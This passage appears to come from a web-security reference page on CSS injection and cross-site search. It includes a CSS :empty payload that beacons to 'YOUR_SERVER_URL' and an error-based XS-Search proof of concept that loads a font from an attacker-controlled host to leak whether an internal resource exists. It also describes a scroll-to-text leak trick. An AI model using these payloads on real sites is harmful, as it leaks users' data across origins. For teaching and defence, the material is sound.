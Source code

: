 Other ways to access DOM parts with **CSS selectors**:

* **`.class-to-search:nth-child(2)`**: This will search the second item with class "class-to-search" in the DOM.
*   **`:empty`** selector: Used for example in [**this writeup**](https://github.com/b14d35/CTF-Writeups/tree/master/bi0sCTF%202022/Emo-Locker)**:**&#x20;

    ```css
    [role^="img"][aria-label="1"]:empty { background-image: url("YOUR_SERVER_URL?1"); }
    ```

### Error based XS-Search

**Reference:** [CSS based Attack: Abusing unicode-range of @font-face ](https://mksben.l0.cm/2015/10/css-based-attack-abusing-unicode-range.html), [Error-Based XS-Search PoC by @terjanq](https://twitter.com/terjanq/status/1180477124861407234)

Basically the main idea is to **use a custom font from an endpoint controlled by us** in a **text that will be showed only if the resource can not be loaded**.

```html
<!DOCTYPE html>
<html>
<head>
    <style>
    @font-face{
        font-family: poc; 
        src: url(http://ourenpoint.com/?leak); 
        unicode-range:U+0041;
    }

    #poc0{
        font-family: 'poc';
    }

    </style>
</head>
<body>

<object id="poc0" data="http://192.168.0.1/favicon.ico">A</object>
</body>
</html>
```

### Styling Scroll-to-Text Fragment

When a **URL fragment targets an element**, the [**`:target`**](https://drafts.csswg.org/selectors-4/#the-target-pseudo) pseudo-class **can be used** to select it, but **`::target-text` does not match anything**. It only matches text that is itself targeted by the \[fragment].

Therefore, an attacker could use the **Scroll-to-text** fragment and if **something is found** with that text we can **load a resource** from the attackers server to indicate it:

```
:target::before { content : url(target.png) }
```
